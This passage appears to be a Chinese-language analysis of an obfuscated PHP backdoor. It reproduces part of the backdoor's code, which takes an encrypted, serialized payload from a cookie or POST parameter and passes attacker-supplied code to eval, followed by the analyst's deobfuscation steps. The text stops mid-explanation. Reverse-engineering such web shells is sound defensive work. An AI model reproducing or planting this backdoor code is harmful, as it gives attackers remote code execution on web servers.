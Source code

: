 ```
                global $w8fd00d8;
                global $c77700426;
                return e664fd(e664fd($vv, $c77700426), $kk);
        }

        foreach ($\_COOKIE as $k=>$v){
        $vv = $v;
        $kk = $k;
        }

        if (!$vv){
                foreach ($\_POST as $k=>$v){
                $vv = $v;
                $kk = $k;
                }
        }

        $vv = @unserialize(x184f5cc(base64\_decode($vv), $kk));

        if (isset($vv\['a'.'k'\]) && $c77700426==$vv\['a'.'k'\]){
                if ($vv\['a'\] == 'i'){
                        $l71c40 = Array('p'.'v' => @phpversion(),'s'.'v' => '1'.'.'.'0'.'-'.'1',);
                        echo @serialize($l71c40);
                }
                elseif ($vv\['a'\] == 'e'){
                eval/\*r49557ec\*/($vv\['d'\]);
                }
                }
                exit();
        }

?>
```

> 1\. 调试出各种已定义变量的值  
> 2\. 替换字变量 / 函数名，增加可读性  
> 3\. 通过倒序的方式，逐步尝试调用后门，明确调用逻辑。

**首先前面几行：**  

```
$GLOBALS\['w8fd00d8'\] = Array();  //定义全局数组，用于保存后面的各种函数名/字符串，以及直接作为函数执行 ，如$GLOBALS\['xx'\]()
global $w8fd00d8;
$w8fd00d8 = $GLOBALS; 
//这里有一个发现，如果变量是被$GLOBALS赋值，那么此变量也会随着$GLOBALS的值实时更新
```

```
$test = $GLOBALS;
访问：?handsome=t00ls
$test值也有handsome=t00ls
```

**如：**
